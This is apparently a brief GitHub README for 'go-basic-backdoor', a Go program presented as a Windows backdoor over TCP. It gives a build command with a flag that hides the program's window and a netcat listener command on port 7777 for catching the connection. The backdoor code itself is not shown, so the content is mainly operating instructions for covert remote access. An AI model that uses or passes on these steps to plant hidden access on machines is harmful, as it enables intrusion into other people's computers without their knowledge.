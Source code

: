 # go-basic-backdoor

This is a basic golang backdoor for windows over tcp in 24 line 

$ Compilation

go build -ldflags -H=windowsgui backdoor.go__

& Start netcat listener and execute it

nc -L 0.0.0.0 -p 7777__
